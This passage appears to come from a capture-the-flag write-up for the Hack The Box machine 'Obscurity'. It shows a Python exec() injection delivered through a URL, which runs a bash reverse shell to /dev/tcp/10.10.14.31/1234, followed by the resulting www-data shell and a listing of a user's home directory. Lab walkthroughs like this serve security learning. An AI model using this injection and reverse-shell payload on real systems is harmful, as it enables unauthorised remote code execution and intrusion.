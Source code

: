 > exec supports the dynamic execution of Python code. The first expression should evaluate to either a string, an open file object, or a code object. If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs). If it is an open file, the file is parsed until EOF and executed. If it is a code object, it is simply executed.

> For more Details: [https://www.geeksforgeeks.org/exec-in-python/https://www.geeksforgeeks.org/exec-in-python/](https://www.geeksforgeeks.org/exec-in-python/https://www.geeksforgeeks.org/exec-in-python/)

So this is where we need to inject our payload, we need to escape the format first.
By using `;` before our payload that will end `exec()` and start executes our payload.
I googled about how to exploit exec and found this!!

>[https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/8.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/8.png)

Using the article I created mine, At first, I tried without `bash -c` but that didn't work but when I tried this, it worked.
I send `'` as the string which it is expecting from us.

```python
`10.10.10.168:8080/';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.31/1234 0>&1'")%23`
```

## Shell as www-data:

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/9.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/9.png)

We got the shell!!

There is a user `robert` while checking his home directory. Found some files.

```python
www-data@obscure:/home/robert$ ls
ls
BetterSSH
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py
user.txt
```
